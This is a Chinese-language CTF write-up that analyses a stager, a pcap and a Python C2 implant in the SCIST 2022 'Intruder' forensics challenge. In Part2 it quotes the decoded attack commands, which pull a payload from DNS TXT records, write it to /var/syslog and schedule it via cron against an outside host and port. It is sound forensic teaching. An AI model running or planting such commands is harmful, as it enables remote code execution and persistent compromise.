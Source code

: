```yaml
---
title: '2022 Final CTF Misc 官方解答'
author: "TwinkleStar03"
tags: [SCIST Final CTF 2022]
categories: [Write-Up]
date: 2022-08-11
description: 幫 SCIST 出了一個系列 Forensic 題目，共三題的 Intruder 題目官方解答。
---
```



---
## Intruder
### Beginning
題目給了兩個檔案，pcap 跟 binary，然後 binary 已經告知是 stager ㄌ。
先把 pcap 丟進去 wireshark 後，會發現沒有什麼可以直接看出個所以然的包可以看，所以就只能從 binary 下手，看看實際上到底做了什麼事情。

### Part1 - Stager Reverse
把 Stager 丟進去喜愛的工具內，可以發現邏輯很簡單，在 main 可以看到有兩個 exec 的 function，而傳入的參數是一個奇怪字串與字串長度，
實際逆向完 exec 後可以知道第一個 part1 的 flag，而這個 flag 就是用來對奇怪字串做 XOR decryption 的，解出來的字串會被送進去 system 後執行。


### Part2
解出來的指令:
- `(dig m.r2s.tw TXT +short; dig m2.r2s.tw TXT +short) | tr -d '" \n' | base64 -d > /var/syslog`
- `echo "*/10 * * * * python3.9 /var/syslog mm.r2s.tw 35540" > /var/auth.log`
- `crontab /var/auth.log`

可以知道程式會利用 dig 去取得 domain 的 txt record，抓下來後 `base64 -d` 會得出一個檔案，看後續的指令可以知道該檔案應該是 python 檔，但不確定是 pyc 還是 source code，所以需要實際上把檔案生出來後才可以知道下一步。

如果已經做到這邊也把檔案弄好了，就可以知道這是一份 python3.9 的 pyc，所以接下來要逆向 Python Bytecode。
在這個 pyc 中可以知道:
1. Part2 的 flag 
2. client 跟 c2 取得了 Key, IV 並使用 AES_CBC 來對接下來的溝通做加密

### Part3
走完 Part2 後會發現一件事情，c2 command 的執行流程並沒有被 hardcoded 在 pyc 內，取而代之的是透過接受資料後再經過 marshal 操作最後丟進去 eval，可以知道這邊是透過傳遞 python code object 然後執行任意指令。
所以要知道實際上的行為的話要先把 pcap 內的相關資料抓取繼續做逆向。

做完逆向之後會得出兩個主要的 function： `cat` 跟 `ls`，接下來只要將 pcap 內的指令跟取得的回覆一一對應後就可以知道惡意程式拉下哪檔案，其中一個 pdf 檔案就是 part3 的 flag。


